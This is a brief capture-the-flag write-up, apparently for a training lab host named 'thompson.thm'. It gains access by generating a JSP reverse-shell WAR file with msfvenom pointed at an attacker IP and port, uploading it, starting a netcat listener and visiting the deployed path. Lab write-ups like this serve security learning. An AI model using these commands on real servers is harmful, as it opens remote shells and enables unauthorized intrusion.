

## Access

### Steps

#### Creating a WAR file to upload into the RCE vuln

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.3.63 LPORT=1234 -f war > shell.war
```

**Now we have a uploade file**
- We uplaoded it to the functionality


```
nc -lvnp 1234
```

**Navigate to the url**

```
http://thompson.thm:8080/shell/
```

we got in!!